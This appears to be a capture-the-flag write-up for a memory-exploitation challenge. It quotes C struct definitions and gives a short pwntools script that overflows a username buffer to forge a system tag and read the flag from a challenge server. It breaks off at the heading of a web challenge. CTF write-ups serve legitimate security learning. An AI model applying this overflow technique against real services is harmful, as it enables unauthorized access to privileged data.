 - Very fun challenge involving memory exploitation.

- A `.c` source is provided, the interesting part lies here:
```c
typedef struct {
	char name[MAX_NAME_LEN];
	union {
		uint32_t tag_raw;
		char tag[4];
	};
} user_t;

typedef struct {
	user_t* author;
	char content[100];
	uint16_t time_sent; // in minutes
} msg_t;

user_t system_user = {
	.name = "Agent Duck",
	.tag_raw = SYSTEM_TAG // #0000
};

{...}

if (msg->author->tag_raw == SYSTEM_TAG) {
	if (self.tag_raw == SYSTEM_TAG) 
		print_msg(msg);

{...}

```

- If we create a user with the tag name equal to the tag name of the 'admin' user, we can read the admin user message, which is the flag.

- To do this, I created a simple python script:

```python
"""
Overflow the "name" field from the user_t struct and add an '0x30303030' (#0000) tag so we can read system messages
"""
from pwn import *

payload = str("Ducky Duck" * 5)[:32].encode('utf-8') + p64(0x30303030)
# print(payload)
c = remote('challs.bcactf.com', 30184)
c.sendline(payload)
c.interactive()
```

### Flag Plus
#web 
```text
I've been trying to find a flag on this site,
but it looks like you have to pay to get it...
```
